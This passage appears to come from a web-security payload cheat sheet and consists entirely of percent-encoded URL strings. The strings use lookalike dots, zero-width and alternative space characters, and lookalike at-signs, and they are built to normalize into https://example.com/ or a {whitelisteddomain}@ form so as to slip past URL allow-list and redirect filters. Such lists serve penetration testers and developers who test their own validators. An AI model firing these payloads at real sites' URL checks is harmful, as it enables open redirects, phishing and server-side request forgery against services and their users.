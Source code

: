 ```powershell
https://example%E2%80%A7com/
https://example%E2%A0%A8com/
https://example%E2%B8%B1com/
https://example%E2%B8%B3com/
https://example%EF%B9%92com/
https://example%EF%BC%8Ecom/
https://example%EF%BD%A1com/
https://example%EF%BF%BDcom/
```

#### Empty string characters
Empty string payloads that may normalize to `https://example.com/`:
```powershell
https://%E2%80%8Bexample.com/
https://%E2%81%A0example.com/
https://%C2%ADexample.com/
https://%CD%8Fexample.com/
https://%E1%A0%8Bexample.com/
https://%E1%A0%8Cexample.com/
https://%E1%A0%8Dexample.com/
https://%E1%A0%8Eexample.com/
https://%E1%A0%8Fexample.com/
https://%E2%81%A4example.com/
```

#### Alternative space characters
Alternative `%20` payloads that may normalize to `%20%https://example.com/`:
```powershell
%C2%A0https://example.com/
%E1%8D%A1https://example.com/
%E1%9A%80https://example.com/
%E2%80%80https://example.com/
%E2%80%81https://example.com/
%E2%80%82https://example.com/
%E2%80%83https://example.com/
%E2%80%84https://example.com/
%E2%80%85https://example.com/
%E2%80%86https://example.com/
%E2%80%87https://example.com/
%E2%80%88https://example.com/
%E2%80%89https://example.com/
%E2%80%8Ahttps://example.com/
%E2%80%A8https://example.com/
%E2%80%A9https://example.com/
%E2%80%AFhttps://example.com/
%E2%81%9Fhttps://example.com/
%E3%80%80https://example.com/
```

#### Alternative at symbol characters
Alternative `@` payloads that may normalize to `https://{whitelisteddomain}@example.com/`:
```powershell
https://{whitelisteddomain}%EF%B9%ABexample.com/
https://{whitelisteddomain}%EF%BC%A0example.com/
```
